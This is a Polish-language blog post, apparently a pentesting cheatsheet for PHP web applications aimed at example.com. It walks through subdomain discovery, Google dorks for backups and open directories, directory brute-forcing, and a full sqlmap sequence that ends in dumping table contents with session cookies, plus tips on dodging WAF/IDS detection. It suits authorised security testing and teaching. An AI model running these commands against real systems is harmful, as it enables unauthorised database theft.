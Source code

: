 ```yaml
---
layout: post
title: SQL-injection - quick and dirty way
subtitle: Testowanie bezpieczeństwa aplikacji webowej napisanej w PHP
#gh-repo: daattali/beautiful-jekyll
#gh-badge: [star, fork, follow]
tags: [PHP,pentesting,security]
comments: true
---
```



Szybki #pwn-ing aplikacji webowej.
Artykuł ten może służyć jako cheatsheet do testów penetracyjnych aplikacji webowej napisanej w języku PHP. Skupiony jest głównie na poszukiwaniu podatności typu SQL-injection z wykorzystaniem gotowych narzędzi, ale niektóre jego elementy przy delikatnej modyfikacji mogą znaleźć zastosowanie w innych przypadkach. Na chwilę obecną nie zamierzam również dokładnie opisywać działania wszystkich użytych narzędzi, być może w przyszłości artykuł zostanie rozbity na mniejsze, bardziej szczegółowe części. Tymczasem, przejdźmy do sedna.

Załóżmy że celem naszych testów będzie domena example.com

## Zbieranie informacji o subdomenach:


### https://dnsdumpster.com

Podajemy nazwę domeny w celu wyszukania rekordów DNS. Zapisujemy zwrócone Host Records (A) które będą nam potrzebne do dalszej analizy.

### https://crt.sh

Strona crt.sh pozwala wyszukać zarejestrowane certyfikaty dla danej domeny. Przy użyciu wildcard-a możemy także wyszukać subdomeny.

%.example.com


### dnsenum -
Link: https://github.com/fwaeytens/dnsenum

```
dnsenum example.com  -f /usr/share/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --threads 50
```  

### Google dorks:

Przy pomocy wyszukiwarki google możemy znaleźć wiele informacji przydatnych podczas pentestów, przykładowo:

__Pliki PHP__

```
site:example.com inurl:php
```

__parametry HTTP__

```
inurl:example.com/index.php
```

Jeżeli powyższy dork zwraca dużą ilosć wyników możemy go ogarniczyć poprzez usunięcie z wyników niechcianych ciągów znaków. 
```
inurl:example.com/index.php -id
```
Pozwoli nam to na łatwiejsze odnalezienie pozostałych parametrów HTTP.


__Foldery z włączonym listowaniem plików__

```
site:example.com title:Index of

site:example.com Parent Directory
```

__Kopie bezpieczeństwa__

```
site:example.com backup
```



## Brutforce contentu strony:  


### Dirbuster - korzystamy z GUI
Preinstalowany w dystrybucji Kali Linux
https://tools.kali.org/web-applications/dirbuster

Dirbuster pozwoli nam na znalezienie zamieszczonych na serwerze www folderów i plików. Najbardziej interesują nas te z rozszerzeniem *.php Warto jednak przejrzeć wszystkie znaleziska. Podczas przeprowadzanych przeze mnie testów bezpieczeństwa zdarzyły się sytuacje gdzie folder odnaleziony pod adresem http://example.com/backup zawierał backup bazy danych lub kodu aplikacji. Często możemy się również natknąć podatność typu Full Path Disclosure.

target url: https://example.com 
Jako target możemy również wybrać wszystkie subdomeny znalezione poprzez opisane wcześniej metody.
Słownik - /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt 
zaznaczamy checkboxy - Brute Force Dirs, Be Recursive, Brute Force 
Files File extension: php

Czasem zdarza się że WAF/IDS/IPS nie pozwoli nam na jednoczesny bruteforce plików i katalogów, w takiej sytuacji możemy spróbować przeprowadzić dwa oddzielne testy.
W ustawieniach narzędzia warto również zmienić domyślny nagłówek Http User Agent. W tym celu wybieramy Options > Advanced Options > Http Options

### Gobuster

Podobnie jak Dirbuster pozwala nam bruteforce zawartości serwera www. Nie posiada on jednak GUI


Link: https://github.com/OJ/gobuster

```
gobuster dir -u https://example.com/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -e -t 50 -x php
```


### Arjun
Link: https://github.com/s0md3v/Arjun

Arjun pomaga nam dowiedzieć się jakie parametry HTTP mogą być przekazywane do aplikacji webowej. Załóżmy sytuację w której za pomocą Google dorks znaleźliśmy adres https://example.com/index.php. Nie znając zawartości pliku index.php nie wiemy jakie parametry może przyjmować. 

```
python3 arjun.py -u https://example.com/index.php
```

Znalezione w ten sposób parametry można później wykorzystać przy szukaniu podatności typu XSS lub SQL-injection.



## Do tej pory powinniśmy zebrać informacje takie jak:


### Subdomeny:

subdomain1.example.com
subdomain2.example.com
(...).example.com

### Pliki php umieszczone na serwerach www:

http://example.com/index.php
https://domain2.example.com/posts.php

### Parametry HTTP przekazywane do aplikacji webowej.

http://example.com/index.php?id=2
https://domain2.example.com/posts.php?name=test

Do wyszukania podatności SQL-i wykorzystamy narzędzie 

### sqlmap
https://github.com/sqlmapproject/sqlmap


```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch
```

Jeżeli testujemy aplikację w kontekscie zalogowanego użytkownika  do komendy należy dodać jego ciasteczka.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --dbs --batch --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Przy znalezionej podatności opcja --dbs pozwoli nam pobrać nazwy baz danych. Listujemy tabele wybranej bazy danych poprzez opcję --tables
 
```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH --tables --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Następnie za pomocą opcji --columns wyświetlamy nazwy kolumn.

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI --columns --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```

Znamy już nazwy tabel oraz zawartych w nich kolumn, aby pobrać ich zawartość wykonujemy polecenie:

```
sqlmap -u "http://example.com/index.php?id=2" --random-agent --batch -D NAZWABAZYDANYCH -T NAZWATABELI -C NAZWAKOLUMNY1,NAZWAKOLUMNY2 --dump --cookies="PHPSESSID=oikbs8qcic2omf5gnd09kihsm7"
```


